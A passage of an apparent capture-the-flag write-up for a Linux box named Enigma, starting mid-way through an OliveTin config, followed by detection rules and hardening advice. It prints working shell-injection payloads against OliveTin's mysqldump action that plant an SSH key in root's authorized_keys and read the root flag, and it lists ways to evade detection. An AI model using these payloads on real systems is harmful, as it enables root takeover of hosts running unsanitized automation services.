if it # runs for too long. - title: Run backup script shell: /opt/backupScript.sh shellAfterCompleted: "apprise -t 'Notification: Backup script completed' -b 'The backup script completed with code {{ exitCode}}. The log is: \n {{ output }} '" maxConcurrent: 1 timeout: 10 icon: backup popupOnStart: execution-dialog # When you want to prompt users for input, that is when you should use # `arguments` - this presents a popup dialog and asks for argument values. # # Docs: https://docs.olivetin.app/action_examples/ping.html - title: Ping host id: ping_host shell: ping {{ host }} -c {{ count }} icon: ping timeout: 100 popupOnStart: execution-dialog-stdout-only arguments: - name: host title: Host type: ascii_identifier default: example.com description: The host that you want to ping - name: count title: Count type: int default: 3 description: How many times to do you want to ping? # OliveTin can control containers - docker is just a command line app. # # However, if you are running in a container you will need to do some setup, # see the docs below. # # Docs: https://docs.olivetin.app/solutions/container-control-panel/index.html - title: Restart Docker Container icon: restart shell: docker restart {{ .CurrentEntity }} arguments: - name: container title: Container name choices: - value: plex - value: traefik - value: grafana # There is a special `confirmation` argument to help against accidental clicks # on "dangerous" actions. # # Docs: https://docs.olivetin.app/args/input_confirmation.html - title: Delete old backups icon: ashtonished shell: rm -rf /opt/oldBackups/ arguments: - type: html title: Description default: The documentation for this action can be found at example.com. - type: confirmation title: Are you sure?! # This is an action that runs a script included with OliveTin, that will # download themes. You will still need to set theme "themeName" in your config. # # Docs: https://docs.olivetin.app/reference/reference_themes_for_users.html - title: Get OliveTin Theme exec: - "olivetin-get-theme" - "{{ themeGitRepo }}" - "{{ themeFolderName }}" icon: theme arguments: - name: themeGitRepo title: Theme's Git Repository description: Find new themes at https://olivetin.app/themes type: url - name: themeFolderName title: Theme's Folder Name type: ascii_identifier # Sometimes you want to run actions on other servers - don't overcomplicate # it, just use SSH! OliveTin includes a helper to make this easier, which is # entirely optional. You can also setup SSH manually. # # Docs: https://docs.olivetin.app/action_examples/ssh-easy.html # Docs: https://docs.olivetin.app/action_examples/ssh-manual.html - title: "Setup easy SSH" icon: ssh shell: olivetin-setup-easy-ssh popupOnStart: execution-dialog # Here's how to use SSH with the "easy" config, to restart a service on # another server. # # Docs: https://docs.olivetin.app/action_examples/ssh-easy.html # Docs: https://docs.olivetin.app/action_examples/systemd_service.html - title: Restart httpd on server1 id: restart_httpd icon: restart timeout: 1 shell: ssh -F /config/ssh/easy.cfg root@server1 'service httpd restart' # Lots of people use OliveTin to build web interfaces for their electronics # projects. It's best to install OliveTin as a native package (eg, .deb), and # then you can use either a python script or the `gpio` command. - title: Toggle GPIO light shell: gpioset gpiochip1 9=1 icon: light # There are several built-in shortcuts for the `icon` option, but you # can also just specify any HTML, this includes any unicode character, # or a link to a custom icon. # # Docs: https://docs.olivetin.app/action_customization/icons.html # # Lots of people use OliveTin to easily execute ansible-playbooks. You # probably want a much longer timeout as well (so that ansible completes). # # Docs: https://docs.olivetin.app/action_examples/ansible.html - title: "Run Automation Playbook" icon: '🤖' shell: ansible-playbook -i /etc/hosts /root/myRepo/myPlaybook.yaml timeout: 120 # The following actions are "dummy" actions, used in a Dashboard. As long as # you have these referenced in a dashboard, they will not show up in the # `actions` view. - title: Ping hypervisor1 shell: echo "hypervisor1 online" - title: Ping hypervisor2 shell: echo "hypervisor2 online" - title: Ping hypervisor3 shell: echo "hypervisor3 online" - title: Ping hypervisor4 shell: echo "hypervisor4 online" - title: "{{ server.name }} Wake on Lan" shell: echo "Sending Wake on LAN to {{ server.hostname }}" icon: entity: server - title: "{{ server.name }} Power Off" shell: "echo 'Power Off Server: {{ server.hostname }}'" icon: entity: server - title: "{{ server.name }} Print server name" shell: 'echo "Server name: {{ server.name }}"' entity: server - title: Ping All Servers shell: "echo 'Ping all servers'" icon: ping - title: Start {{ .CurrentEntity.Names }} icon: box shell: docker start {{ .CurrentEntity.Names }} entity: container triggers: ["Update container entity file"] - title: Stop {{ .CurrentEntity.Names }} icon: box shell: docker stop {{ .CurrentEntity.Names }} entity: container triggers: ["Update container entity file"] # Lastly, you can hide actions from the web UI, this is useful for creating # background helpers that execute only on startup or a cron, for updating # entity files. # - title: Update container entity file # shell: 'docker ps -a --format json > /etc/OliveTin/entities/containers.json' # hidden: true # execOnStartup: true # execOnCron: '*/1 * * * *' # An entity is something that exists - a "thing", like a VM, or a Container # is an entity. OliveTin allows you to then dynamically generate actions based # around these entities. # # This is really useful if you want to generate wake on lan or poweroff actions # for `server` entities, for example. # # A very popular use case that entities were designed for was for `container` # entities - in a similar way you could generate `start`, `stop`, and `restart` # container actions. # # Entities are just loaded fome files on disk, OliveTin will also watch these # files for updates while OliveTin is running, and update entities. # # Entities can have properties defined in those files, and those can be used # in your configuration as variables. For example; `container.status`, # or `vm.hostname`. # # Docs: https://docs.olivetin.app/entities/intro.html - title: Backup Database id: backup_database icon: "⛁" shell: "mysqldump -u {{ db_user }} -p'{{ db_pass }}' {{ db_name }} > /opt/backups/backup.sql" popupOnStart: execution-dialog arguments: - name: db_user type: ascii_identifier default: backup_svc - name: db_pass type: password - name: db_name type: ascii_identifier default: production entities: # YAML files are the default expected format, so you can use .yml or .yaml, # or even .txt, as long as the file contains valid a valid yaml LIST, then it # will load properly. # # Docs: https://docs.olivetin.app/entities/intro.html - file: entities/servers.yaml name: server - file: entities/containers.json name: container # Dashboards are a way of taking actions from the default "actions" view, and # organizing them into groups - either into folders, or fieldsets. # # The only way to properly use entities, are to use them with a `fieldset` on # a dashboard. # # Docs: https://docs.olivetin.app/dashboards/intro.html dashboards: # Top level items are dashboards. - title: My Servers contents: - title: All Servers type: fieldset contents: # The contents of a dashboard will try to look for an action with a # matching title IF the `contents: ` property is empty. - title: Ping All Servers # If you create an item with some "contents:", OliveTin will show that as # directory. - title: Hypervisors contents: - title: Ping hypervisor1 - title: Ping hypervisor2 - title: More hypervisors type: directory contents: - title: Ping hypervisor3 - title: Ping hypervisor4 # If you specify `type: fieldset` and some `contents`, it will show your # actions grouped together without a folder. - type: fieldset entity: server title: 'Server: {{ .CurrentEntity.hostname }}' contents: # By default OliveTin will look for an action with a matching title # and put it on the dashboard. # # Fieldsets also support `type: display`, which can display arbitary # text. This is useful for displaying things like a container's state. - type: display title: | Hostname: {{ server.name }} IP Address: {{ server.ip }} # These are the actions (defined above) that we want on the dashboard. - title: '{{ server.name }} Wake on Lan' - title: '{{ server.name }} Power Off' - title: More Options type: directory contents: - title: '{{ server.name }} Print server name' # This is the second dashboard. - title: My Containers contents: - title: 'Container {{ .CurrentEntity.Names }} ({{ .CurrentEntity.Image }})' entity: container type: fieldset contents: - type: display title: | {{ container.RunningFor }}

{{ container.State }} - title: 'Start {{ .CurrentEntity.Names }}' - title: 'Stop {{ .CurrentEntity.Names }}' # Security - Authentication # This setting effectively enables or disables guests. # If set to "true", then users will have to login to do anything. authRequireGuestsToLogin: false # This form of auth is the simplest to setup - just define users and passwords # in the config. OliveTin also supports header-based auth, OAuth2, # and JWT authentication which are documented separately. # # Docs: https://docs.olivetin.app/security/local.html # # How to get a hashed password: # Docs: https://docs.olivetin.app/security/local.html#_get_a_argon2id_hashed_password authLocalUsers: enabled: true # users: # - username: alice # usergroup: admins # password: "$argon2id$v=19$m=65536,t=4,p=2$puyxA0s555TSFx7hnFLCXA$PyhLGpZtvpMMvc2DgMWkM8OJMKO55euwV5gm//1iwx4" # Security - Access Control # Policies affect the whole app (eg: ability to view the log list). # Docs: https://docs.olivetin.app/security/acl.html defaultPolicy: showDiagnostics: true showLogList: true # Permissions affect actions (eg: ability to view a specific log). # Docs: https://docs.olivetin.app/security/acl.html defaultPermissions: view: true exec: true logs: true # OliveTin uses access control lists to match up policy and permissions to users. # Docs: https://docs.olivetin.app/security/acl.html accessControlLists: - name: admin_acl matchUsergroups: ["admins"] policy: showDiagnostics: true permissions: view: true exec: true logs: true # OliveTin contains many more configuration options not in this default config. # Check out docs.olivetin.app for a setting if you feel like you're missing something. - title: Backup Database id: backup_database 

```

```
# ===========================================
# General Configuration
# ===========================================

listenAddressSingleHTTPFrontend: 127.0.0.1:1337
logLevel: INFO

authRequireGuestsToLogin: false

authLocalUsers:
  enabled: true

defaultPolicy:
  showDiagnostics: true
  showLogList: true

defaultPermissions:
  view: true
  exec: true
  logs: true

# ===========================================
# Actions
# ===========================================

actions:

  - title: Ping the Internet
    shell: ping -c 3 1.1.1.1
    icon: ping
    popupOnStart: execution-dialog-stdout-only

  - title: Check disk space
    shell: df -h /media
    icon: disk
    popupOnStart: execution-dialog-stdout-only

  - title: Check dmesg logs
    shell: dmesg | tail
    icon: logs
    popupOnStart: execution-dialog

  - title: Date
    id: date
    shell: date
    timeout: 6
    icon: clock
    popupOnStart: execution-button
    maxRate:
      - limit: 3
        duration: 1m

  - title: Run backup script
    shell: /opt/backupScript.sh
    shellAfterCompleted: |
      apprise -t 'Notification: Backup script completed' \
      -b 'The backup script completed with code {{ exitCode }}.
      The log is:
      {{ output }}'
    timeout: 10
    maxConcurrent: 1
    icon: backup
    popupOnStart: execution-dialog

# ===========================================
# User Input Example
# ===========================================

  - title: Ping host
    id: ping_host
    shell: ping {{ host }} -c {{ count }}
    icon: ping
    timeout: 100

    arguments:
      - name: host
        title: Host
        type: ascii_identifier
        default: example.com

      - name: count
        title: Count
        type: int
        default: 3

# ===========================================
# Docker
# ===========================================

  - title: Restart Docker Container
    shell: docker restart {{ .CurrentEntity }}
    icon: restart

    arguments:
      - name: container
        choices:
          - plex
          - traefik
          - grafana

# ===========================================
# Dangerous Action
# ===========================================

  - title: Delete old backups
    shell: rm -rf /opt/oldBackups/

    arguments:
      - type: html
        title: Description

      - type: confirmation
        title: Are you sure?!

# ===========================================
# SSH
# ===========================================

  - title: Setup easy SSH
    shell: olivetin-setup-easy-ssh
    icon: ssh

  - title: Restart httpd on server1
    id: restart_httpd
    shell: ssh -F /config/ssh/easy.cfg root@server1 'service httpd restart'
    timeout: 1

# ===========================================
# GPIO
# ===========================================

  - title: Toggle GPIO light
    shell: gpioset gpiochip1 9=1

# ===========================================
# Ansible
# ===========================================

  - title: Run Automation Playbook
    shell: ansible-playbook -i /etc/hosts /root/myRepo/myPlaybook.yaml
    timeout: 120

# ===========================================
# Database Backup
# ===========================================

  - title: Backup Database
    id: backup_database
    shell: mysqldump -u {{ db_user }} -p'{{ db_pass }}' {{ db_name }} > /opt/backups/backup.sql

    arguments:
      - name: db_user
        default: backup_svc

      - name: db_pass
        type: password

      - name: db_name
        default: production

# ===========================================
# Entities
# ===========================================

entities:

  - file: entities/servers.yaml
    name: server

  - file: entities/containers.json
    name: container

# ===========================================
# Dashboards
# ===========================================

dashboards:

  - title: My Servers

  - title: My Containers

# ===========================================
# ACL
# ===========================================

accessControlLists:

  - name: admin_acl

    matchUsergroups:
      - admins

    policy:
      showDiagnostics: true

    permissions:
      view: true
      exec: true
      logs: true
```

```yaml
- title: Backup Database
  id: backup_database
  shell: "mysqldump -u {{ db_user }} -p'{{ db_pass }}' {{ db_name }} > /opt/backups/backup.sql"
  arguments:
    - name: db_user
      type: ascii_identifier
      default: backup_svc
    - name: db_pass
      type: password
    - name: db_name
      type: ascii_identifier
      default: production
```

The service allowed guests to execute actions. The frontend used Connect/gRPC over HTTP at:

```text
/api/olivetin.api.v1.OliveTinApiService/StartActionAndWait
```

Because `db_pass` was interpolated inside single quotes in a shell command, this payload broke out of the quoted password and executed `cat /root/root.txt` as root:


```
haris@enigma:~$ curl -X POST http://127.0.0.1:1337/api/olivetin.api.v1.OliveTinApiService/StartActionAndWait \
  -H "Content-Type: application/json" \
  -d "{\"actionId\":\"backup_database\",\"arguments\":[{\"name\":\"db_user\",\"value\":\"backup_svc\"},{\"name\":\"db_pass\",\"value\":\"x' ; mkdir -p /root/.ssh && echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMVa7WPN40UXmyqlrOMu+yRGPn9w7rNkUuwEyZPrpKpW z0n@z0n.com' >> /root/.ssh/authorized_keys && chmod 700 /root/.ssh && chmod 600 /root/.ssh/authorized_keys ; #\"},{\"name\":\"db_name\",\"value\":\"production\"}]}"
{"logEntry":{"datetimeStarted":"2026-06-28 08:55:25", "actionTitle":"Backup Database", "output":"mysqldump: [Warning] Using a password on the command line interface can be insecure.\nUsage: mysqldump [OPTIONS] database [tables]\nOR     mysqldump [OPTIONS] --databases [OPTIONS] DB1 [DB2 DB3...]\nOR     mysqldump [OPTIONS] --all-databases [OPTIONS]\nFor more options, use mysqldump --help\n", "timedOut":false, "exitCode":0, "user":"guest", "userClass":"", "actionIcon":"⛁", "tags":[], "executionTrackingId":"670423a9-faf6-4ed5-9167-e46d5aca72fa", "datetimeFinished":"2026-06-28 08:55:25", "executionStarted":true, "executionFinished":true, "blocked":false, "datetimeIndex":"0", "canKill":false, "datetimeRateLimitExpires":"", "bindingId":"backup_database"}}haris@enigma:~$ 
```

```
ssh -i ~/z0n/z0n/posts/Enigma/enigma root@10.XXX.XXX.XXX 
```


```json
{
  "actionId": "backup_database",
  "arguments": [
    {"name": "db_user", "value": "backup_svc"},
    {"name": "db_pass", "value": "x' ; cat /root/root.txt ; #"},
    {"name": "db_name", "value": "production"}
  ]
}
```

The OliveTin action log returned the root flag in the command output.

Root flag:

```text
[REDACTED_ROOT_FLAG]
```




## Defensive Operations

### Strategic Overview

**1.1 Definition:**
A multi-stage Linux compromise chain leveraging **unauthenticated NFS exposure**, **credential reuse across mail accounts**, **filename-based command injection in OpenSTAManager (CVE-2025-69212)**, **database credential disclosure**, and **shell injection through an unsanitized OliveTin automation action** to achieve full **root compromise of an Ubuntu 24.04 server running internal mail and support infrastructure**.

**1.2 Impact:**
Complete **host-level root compromise**, enabling full control over:
- Web application server (`www-data` -> `haris` -> `root`)
- Internal mail infrastructure (Roundcube / Dovecot)
- OpenSTAManager support platform and its database
- OliveTin automation service and all actions it can execute
- All credentials, secrets, and data accessible from the system

**1.3 The Scenario:**
An attacker begins with zero credentials. An unauthenticated NFS share exposes an employee onboarding PDF containing plaintext webmail credentials. Credential reuse across a second mail account yields OpenSTAManager admin access. A known filename injection vulnerability in OpenSTAManager's `.p7m` upload handler provides remote code execution as `www-data`. From there, a readable web config discloses MySQL credentials, which expose a crackable bcrypt hash for local user `haris`. Finally, a locally bound OliveTin instance running as root accepts unauthenticated action requests, and an unsanitized password argument in a shell-interpolated `mysqldump` command provides trivial root-level command injection.


### System Architecture

**2.1 Protocol Environment:**
HTTP (vhost routing), IMAP/POP3/IMAPS (Dovecot), NFS (NFSv3/v4), SMB/RPC, MySQL, and OliveTin gRPC/HTTP REST API.

**2.2 Attack Logic Flow:**

```
[Unauthenticated NFS] -> [Plaintext PDF Credentials] -> [Roundcube Access]
-> [Credential Reuse (IMAP Spray)] -> [Sarah's Mailbox] -> [OpenSTAManager Creds]
-> [CVE-2025-69212 Filename Injection] -> [PHP Webshell (www-data)]
-> [config.php DB Credential Disclosure] -> [MySQL Hash Dump]
-> [bcrypt Crack (rockyou)] -> [su -> haris]
-> [OliveTin Local Enum] -> [Shell Quote Escape in db_pass]
-> [Root Command Execution via gRPC]
```

**2.3 Theoretical Analogy:**
The attack mirrors a leaking supply chain where each trust boundary is only as strong as the weakest preceding link. The NFS share acts as an unlocked front door handing an attacker the keys to an internal trust chain — each service inheriting implicit trust from the last. The OliveTin misconfiguration mirrors the Enigma box's core theme: a system designed for convenience (one-click automation) that, by removing authentication and sanitization simultaneously, becomes the final undoing of the entire stack.

[evidence.sh](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Enigma/evidence.sh "Results")

[CASE_enigma_20260628_090153.tar.gz](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Enigma/CASE_enigma_20260628_090153.tar.gz "Results")


### Attack Vector

| Attribute | Technical Details |
| :------------------------------- | :--------------------------------------------------------------------------------------------------------------------------|
| **Primary Identifiers** | `NFS export (world-accessible)`<br>`Credential reuse (kevin -> sarah)`<br>`CVE-2025-69212 (.p7m filename injection)`<br>`config.php database credential disclosure`<br>`bcrypt hash (weak password, rockyou-crackable)`<br>`OliveTin shell interpolation (db_pass single-quote escape)` |
| **Critical Vulnerabilities** | - Unauthenticated NFS share exposing credential material<br>- Password reuse across mail accounts<br>- Unsanitized filename passed to shell in OpenSTAManager upload handler<br>- Web-readable database configuration file<br>- Weak user password surviving bcrypt but not rockyou<br>- OliveTin running as root with guest execution enabled<br>- Shell string interpolation of untrusted user input (`db_pass`) |
| **Offensive Actions** | 1. Mount NFS export and extract PDF credentials.<br>2. Authenticate to Roundcube as `kevin`, identify `sarah`.<br>3. Spray recovered password against IMAP — `sarah` reuses it.<br>4. Extract OpenSTAManager credentials from `sarah`'s inbox.<br>5. Exploit CVE-2025-69212 to write PHP webshell as `www-data`.<br>6. Read `config.php`, recover MySQL credentials.<br>7. Dump `zz_users` bcrypt hashes, crack `haris:bestfriends`.<br>8. Pivot to `haris` via `su` through webshell.<br>9. Enumerate loopback services, identify OliveTin on `:1337`.<br>10. Craft gRPC payload with quote-escaping `db_pass`, execute as root. |


### Prerequisites

**Access Level:**
- Zero credentials required for initial access
- Unauthenticated network access to target on relevant ports
- Ability to mount NFS and interact with HTTP vhosts

**Connectivity:**
- NFS (2049)
- HTTP (80) with vhost resolution (`enigma.htb`, `mail001.enigma.htb`, `support_001.enigma.htb`)
- IMAP/IMAPS (143/993)
- MySQL (local, via webshell)
- OliveTin gRPC (127.0.0.1:1337, reachable post-pivot)

**Target State:**
- NFS export world-mountable with no `squash` or auth controls
- Shared password across `kevin` and `sarah` mail accounts
- OpenSTAManager 2.9.8 unpatched (CVE-2025-69212)
- `config.php` readable by `www-data`
- `haris` using a rockyou-crackable password
- OliveTin `authRequireGuestsToLogin: false` + `defaultPermissions.exec: true`
- `db_pass` interpolated into shell string without sanitization


### Threat Hunting & Anomaly Analysis

**Hunt Hypothesis:**
Attackers will chain credential disclosure from exposed file shares through service-to-service password reuse, exploit unpatched upload handlers for initial execution, and escalate through locally bound automation services with overly permissive execution policies.

**Behavioral Outliers:**
- NFS mount activity from external or non-corporate IP ranges
- IMAP authentication attempts across multiple accounts from the same source IP in short succession
- Upload of a ZIP/archive containing `.p7m` entries with shell metacharacters in filename fields
- New `.php` files appearing in `files/` directory of the OpenSTAManager web root
- MySQL queries to `zz_users` from the `www-data` process context
- `su` invocations originating from a web process (`www-data` -> `haris`)
- HTTP POST requests to `127.0.0.1:1337` from a non-interactive user session
- Shell commands spawned by the OliveTin process containing `;` or `#` in argument fields

**Toxic Combinations:**
- World-accessible NFS + plaintext credentials in exposed documents
- Shared passwords across mail accounts + no MFA on webmail
- Unpatched OpenSTAManager + `www-data` write access to web root
- Web-readable `config.php` + MySQL accessible from web context
- Weak bcrypt password + no account lockout on `su`
- OliveTin as root + guest exec enabled + shell-interpolated user arguments


### Detection Engineering

**Telemetry Gap Analysis:**
Effective detection requires correlation across:
- NFS mount and file access events
- IMAP authentication logs (Dovecot)
- Web application upload logs (OpenSTAManager access/error logs)
- Filesystem change events in web root directories
- MySQL general query log
- PAM / `su` authentication logs
- OliveTin action execution logs
- Process ancestry (web server spawning shells)

Critical Log Sources:

| Source | What to Watch |
| :----------------------- | :--------------------------------------------------------- |
| `/var/log/dovecot.log` | Rapid multi-account auth from single IP |
| OpenSTAManager access log | POST to upload endpoint with `.p7m` filenames |
| `/var/www/.../files/` inotify | New `.php` file creation |
| MySQL general log | `SELECT` on `zz_users` from `www-data` context |
| `/var/log/auth.log` | `su` from `www-data` to `haris` |
| OliveTin action log | Arguments containing `;`, `#`, or quote chars |
| `/proc` / auditd | `www-data` spawning `bash`, `sh`, `python` |

#### Detection-as-Code (KQL / Auditd)

```kql
// Detect new PHP file creation in OpenSTAManager web directories
DeviceFileEvents
| where FolderPath contains "/files/" and FileName endswith ".php"
| where InitiatingProcessAccountName == "www-data"
| project Timestamp, FileName, FolderPath, InitiatingProcessCommandLine
```

```kql
// Detect su invocations from web process ancestry
DeviceProcessEvents
| where ProcessCommandLine has "su" and ParentProcessName in ("apache2", "php", "php-fpm")
| project Timestamp, AccountName, ProcessCommandLine, ParentProcessCommandLine
```

```kql
// Detect OliveTin action executions with shell-special characters in arguments
DeviceProcessEvents
| where ParentProcessName == "OliveTin"
| where ProcessCommandLine has_any (";", "#", "&&", "||", "|")
| project Timestamp, ProcessCommandLine, AccountName
```


### Resilience Test

Attackers may bypass detection by:
- Using `nfscat` or direct read syscalls to avoid mounting the NFS share (evades mount logs)
- Spreading IMAP credential spray across time to avoid velocity thresholds
- Encoding the webshell payload (Base64, hex) to evade content-based upload detection
- Using `mysql` client from a non-`www-data` context after pivoting
- Piping commands through the webshell without writing to disk
- Tunnelling OliveTin gRPC through legitimate `haris` SSH session to blend with normal user activity

**Countermeasures:**
- Restrict NFS exports to specific CIDRs with `root_squash` and `all_squash`
- Enable MFA on all webmail accounts; alert on multi-account auth from single IP
- Patch OpenSTAManager to ≥ post-CVE-2025-69212 release; sanitize all archive entry names before shell invocation
- Move `config.php` outside web root or restrict read permissions to a dedicated application user
- Enforce strong password policy and monitor `su` usage from non-TTY contexts
- Require OliveTin authentication; use `exec` arrays instead of shell strings; never run as root


### Toolkit & Implementation

**Automation:**
- `showmount` / `mount` (NFS enumeration and mounting)
- `Hydra` (IMAP credential spray)
- Custom Python exploit (CVE-2025-69212 VSIX/p7m injection)
- `mysql` CLI (hash extraction)
- `John the Ripper` (bcrypt offline crack)
- `curl` / `grpcurl` (OliveTin gRPC action trigger)

**OPSEC Analysis:**
- NFS mounting leaves no server-side authentication log — entirely passive
- IMAP spray generates failed auth logs but blends into noise without velocity alerting
- Webshell placed in a legitimate application upload directory — low visibility without file integrity monitoring
- MySQL access from `www-data` appears as normal application database activity
- OliveTin request over loopback is indistinguishable from legitimate local admin use without argument content inspection


### Defensive Mechanisms

#### Technical Hardening

**1. Secure NFS Exports**
- Restrict exports to specific management CIDRs only.
- Apply `root_squash`, `all_squash`, and `nosuid` mount options.
- Never store credential material in NFS-accessible directories.

**2. Eliminate Password Reuse**
- Enforce unique passwords per service account via policy.
- Enable MFA on all externally accessible mail interfaces.
- Rotate credentials on a defined lifecycle regardless of breach indicators.

**3. Patch and Harden OpenSTAManager**
- Apply upstream patch addressing CVE-2025-69212.
- Validate and sanitize all archive entry filenames server-side before any shell invocation.
- Run the application under a dedicated user with no write access to the web root.

**4. Protect Database Credentials**
- Store `config.php` outside the document root or enforce `640` permissions.
- Use a least-privilege MySQL user with no access to `zz_users` from the web context.
- Rotate database passwords independently of application deployments.

**5. Harden OliveTin**
- Set `authRequireGuestsToLogin: true` and define explicit user accounts.
- Replace all shell-string actions with `exec` array format (no interpolation into shell strings).
- Run OliveTin under a dedicated low-privilege user; use `sudo` with strict command whitelisting only for specific actions that require elevation.
- Bind to a management VLAN interface, not loopback accessible from any local user.


### QUICK-ACTION PLAYBOOK

| Step | Objective | Command / Logic |
| :---: | :---------------------------- | :------------------------------------------------------------------------------------------------ |
| 01 | Audit NFS exports | `showmount -e <host>` -> restrict in `/etc/exports` |
| 02 | Check for reused passwords | Audit mail accounts against shared credential stores |
| 03 | Identify unpatched OpenSTAManager | Check version at `/index.php` footer against CVE-2025-69212 |
| 04 | Audit web root for rogue PHP | `find /var/www -name "*.php" -newer /etc/passwd` |
| 05 | Check config.php permissions | `stat /var/www/.../config.php` -> should not be world/group readable |
| 06 | Review OliveTin config | `cat /etc/OliveTin/config.yaml` -> audit `authRequireGuestsToLogin` and all `shell:` actions for interpolated arguments |
| 07 | Identify OliveTin process owner | `ps aux \| grep OliveTin` -> should never be `root` |
| 08 | Hunt webshell artifacts | `find /var/www -name "sh.php" -o -name "*.php" -newer /var/www/index.php` |